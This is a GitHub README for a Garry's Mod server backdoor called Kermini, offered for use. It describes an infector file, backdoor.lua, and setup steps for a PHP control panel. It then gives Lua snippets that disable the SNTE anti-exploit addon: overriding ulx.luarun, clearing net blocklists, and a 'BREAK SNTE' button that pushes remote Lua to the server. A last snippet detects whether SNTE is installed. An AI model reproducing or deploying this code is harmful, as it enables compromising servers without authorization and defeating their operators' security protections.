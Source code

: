 # Kermini-Backdoor-Gmod
Kermini-Backdoor : a gmod simple backdoor System Initially, I created this for my personal use but I am not an egoist, so keep going and have fun | Do not forget to configure it correctly

backdoor.lua : The file that contain the code to infect servers |Can sometimes spam errors when a player join

# Installation Process | Files

open main.php and change Database settings and the others options if you want

open class/Config.php and change Database settings

open deletepayload.php and change Database settings

open send_payload_update.php and change Database settings

open install folder and change Database settings

open phpMyAdmin and execute Kermini-s-q-l.sql 

open www.[DOMAIN].com/install and create an account |Delete this folder after this step

Here you go ! Enjoy

# SNTE
https://steamcommunity.com/sharedfiles/filedetails/?id=1308262997

This addon can sometimes block your Payloads so try bypasses 

timer.Simple(0.5, function()
    function ulx.luarun(calling_ply, command)
        print("ez snte")
    end
    bad_net = ""
    local bad_net = ""
    local global_nets = ""
    global_nets = ""
end)
___
local Macro = vgui.Create("DButton", BackGround)
Macro:SetPos(255, 160)
Macro:SetParent(Controller)
Macro:SetTextColor(Color(255, 255, 255, 255))
Macro:SetSize(200, 25)
Macro:SetText("BREAK SNTE")
Macro.Paint = function()
    surface.SetDrawColor(50, 50, 50 , 200)
    surface.DrawRect(0, 0, Macro:GetWide(), Macro:GetTall())
    surface.SetDrawColor(0, 0, 0, 200)
    surface.DrawOutlinedRect(0, 0, Macro:GetWide(), Macro:GetTall())
end
___
Macro.DoClick = function()
    net.Start(netKey)
        net.WriteString([[
            _G.SNTE = function() end
        ]])
        net.WriteBit(1)
    net.SendToServer()
    chat.AddText(Color(255,204,153), "亗ADM TEAM", Color(255, 255, 255), "LANCER !" )
    SploitNotify("LANCER")
    surface.PlaySound("buttons/button15.wav")
end

# How to detect SNTE ON A SERVER :

local isSNTE = false
if ConVarExists("snte_dupefix") or file.Exists( "autorun/server/snte_source.lua", "LUA" ) == true then
    isSNTE = true
end

if isSNTE then
    chat.AddText(Color(26, 48, 219), "[KERMINI]", Color(35, 142, 219), " SNTE DETECTED")
end

